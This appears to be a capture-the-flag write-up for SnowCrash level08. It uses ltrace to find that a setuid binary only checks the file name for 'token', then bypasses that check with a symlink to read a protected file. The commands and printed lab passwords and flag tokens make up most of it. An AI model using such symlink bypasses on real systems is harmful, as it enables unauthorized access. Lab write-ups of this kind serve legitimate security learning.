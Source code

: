 ## --------------> Vulnerability

Privilege escalation via symlink

List the file with `ls -l` will show us :
```
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
level08@SnowCrash:~$
```
Let's do some tests
```
level08@SnowCrash:~$ ./level08
./level08 [file to read]
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
level08@SnowCrash:~$
```
Seems there is a check against "token", let's verify our hypotesis with `ltrace`
```
level08@SnowCrash:~$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")
                                                   = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)
        = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
level08@SnowCrash:~$
```
We understand that the executable opens the file passed as argument, then reads its content and
prints it to the standard output but it call strstr against "token"

# 2nd Step
We simply have to create a symbolic link, without token in it  and read it
```
level08@SnowCrash:~$ ln -s ~/token /tmp/my_file
level08@SnowCrash:~$ ./level08 /tmp/my_file
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
flag08@SnowCrash:~$ su level09
Password:
level09@SnowCrash:~$
```

